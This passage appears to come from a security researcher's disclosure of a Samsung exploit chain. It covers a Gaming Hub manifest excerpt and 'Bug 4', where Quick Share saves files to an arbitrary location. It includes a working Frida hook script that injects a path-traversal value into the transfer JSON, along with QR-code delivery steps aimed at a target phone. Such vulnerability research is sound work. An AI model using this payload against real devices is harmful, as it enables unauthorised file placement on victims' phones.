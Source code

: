 ```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    android:versionCode="710107000"
    android:versionName="7.1.01.7"
    android:compileSdkVersion="35"
    android:compileSdkVersionCodename="15"
    package="com.samsung.android.game.gamehome"
    ...    
    <uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
```

So as long as the service continues to run in the foreground, then Gaming Hub can continue to launch Activities even if none of its own Activities are in the foreground.

### Bug 4 – A file downloaded via Quick Share can be saved to an arbitrary location

#### Exploit Payload

A Frida script (or Xposed Module) can be used to exploit this issue. Run the following Frida Script on an attacker controlled phone:

```
console.log("script loaded");
Java.perform(function() {

    var yayclass1yay = Java.use('e2.t');

    yayclass1yay.n.overload('org.json.JSONObject', 'e2.h', 'boolean').implementation = function(a,b,c) {

        if (a.has("IsPrivateShare")) {
            a.put("IsPrivateShare", true)
        }
        if (a.has("Path")) {
            a.put("Path","/../../../../../../GPUWatch_Dump/html/")
        }
        var ret_val = this.n(a,b,c);
        console.log("send json: " + a + "\n" + "send bytes: " + ret_val + "\n")
        return ret_val;
    }
});
```

The attacker controlled phone should then share a file on their phone via Quick Share. Take note of the QR code URL that is generated on the attacker controlled phone generate. That QR code URL should then be used to launch Quick Share on the target phone.

NOTE: the `GPUWatch_Dump/html/` value in the above script is strictly used for this exploit chain. 

#### Exploit Details

The application "Quick Share Agent" (`com.samsung.android.aware.service` version 3.5.19.33) is a background application that runs alongside the Quick Share application. When sending and receiving files via Quick Share, it is actually Quick Share Agent that handles connections to remote phones and sending/receiving files.
